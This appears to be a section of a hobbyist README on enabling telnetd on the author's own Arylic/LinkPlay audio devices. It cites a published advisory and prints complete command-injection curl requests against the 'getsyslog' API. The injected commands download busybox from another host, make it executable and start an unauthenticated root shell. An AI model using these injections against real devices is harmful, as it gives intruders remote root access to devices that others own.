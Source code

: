 # Enable telnetd
To enable telnetd on these devices, a security vulnerability had to be exploited. The first version on my devices was 4.2.8020 from 2020/02/20 (20th of Feb 2020) that still had a vulnerability in their code: internally a "sprintf" function was used to prepare a Linux CLI commands. That function was using an IP address as an input, but the input could be extended with ";" and additional commands to download and install a telnetd.

The command that has this vulnerability is **_"getsyslog"_**, see https://developer.arylic.com/httpapi/#get-system-log and https://labs.withsecure.com/advisories/linkplay-firmware-wanlan-remote-code-execution. The command has an option to add an IP address from a slave device, e.g. **_"getsyslog:ip:10.1.1.90"_**, so a CLI command is executed on the device to retrieve the system log from the slave device that includes the IP address. Instead of just having an IP address as a parameter, that CLI command can also include a ";" and a second CLI command. You do not even have to provide an IP address, but can append the ";" and second command directly after the ":ip:". 

The following code snippets are using the IP address 10.1.1.52 for my Arylic Up2Stream Pro v3 device and 10.1.1.22 for a web server running on my local MacBook. 
```
curl "http://10.1.1.52httpapi.asp?command=getsyslog:ip:;wget+-O+/tmp/bin/busybox+-T+5+http://10.1.1.22/a31/busybox+-q;chmod+777+/tmp/bin/busybox;/tmp/bin/busybox+telnetd+-l/bin/ash";
```
The command above is executing the following commands on the device:
```
wget -O /tmp/bin/busybox -T 5 http://10.1.1.22/a31/busybox -q;
chmod 777 /tmp/bin/busybox;
/tmp/bin/busybox telnetd -l/bin/ash
```
The tool **_"busybox"_** is like a swiss army knife and combines a lot of CLI commands in a single binary file. That file was stripped down already in my version and does not include a telnetd anymore. Therefore you have to get a full version from somewhere. 

A version of busybox is provided here, but there is an OpenWRT archive where you can get precompiled binaries for almost all utilities you may need. See section **_Hardware and Firmware_** for more information.

You may also redirect output and error output for telnetd: 
```
curl "http://10.1.1.52httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;wget+-O+/tmp/bin/busybox+-T+5+http://10.1.1.22/a31/busybox+-q;chmod+777+/tmp/bin/busybox;/tmp/bin/busybox+telnetd+-l/bin/ash+>+/tmp/web/cmd.out+2>+/tmp/web/cmd.err;";
```


